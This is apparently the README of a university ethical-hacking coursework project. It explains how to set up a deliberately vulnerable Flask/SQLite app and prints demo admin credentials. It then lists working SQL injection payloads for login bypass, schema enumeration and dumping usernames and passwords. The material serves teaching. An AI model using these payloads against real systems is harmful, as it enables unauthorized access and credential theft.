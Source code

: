 # F20AN-CW1  

### SQL Injection Project – Ethical Hacking Coursework  

This project demonstrates SQL injection vulnerabilities as part of an ethical hacking course.  

## Contributors  
- Aryan R  
- Patson D  

## Setup & Execution  

1. **Install Dependencies**  
   Ensure you have a Python environment set up, then install the required dependencies:  
   ```bash
   pip install -r requirements.txt 
   ```

2. **Set Up the Database**  
Navigate to the 'flask app' directory and run:
    ```bash
   python setupDatabase.py
   ```
   The following output should be generated during its first execution:
   ```bash
    Users added
Admin user and test user created.

admin creds: 
        u:patson
        p:dubai2020!
test user creds: 
        u:sharafdg
        p:passsw0rd!
                  
Stock items added.

Database setup complete.
   ```
   This initializes the SQL database.

3. **Run the Application**  
Start the Flask app: 
    ```bash
    python myApp.py
    ```
    Then, open your browser and go to:  
    http://127.0.0.1:5000/

4. **Example Exploits (for SQLite):**

   - **Bypass login with comment (login page)**
     ```
     admin'-- 
     ```

   - **Bypass login with OR (login page)**
     ```
     admin' OR '1' = '1
     ```

   - **Check if injection is possible (stock page)**
     ```
     ' UNION SELECT 1,2,3,4,5; --
     ```

   - **Get SQLite version (stock page)**
     ```
     ' UNION SELECT sqlite_version(),2,3,4,5; --
     ```

   - **Show tables (stock page)**
     ```
     ' UNION SELECT name, type, 3,4,5 FROM sqlite_master; --
     ```

   - **Show SQL query with table info (stock page)**
     ```
     ' UNION SELECT sql, 2,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'; --
     ```

   - **Dump all users (stock page)**
     ```
     %' UNION SELECT username, password, 1, 2, 3 FROM users; --
     ```

   - **List all tables and SQL schema (stock page)**
     ```
     ' UNION SELECT type, name, tbl_name, rootpage, sql FROM sqlite_master; --
     ```

---
This project is intended for the f20an coursework.
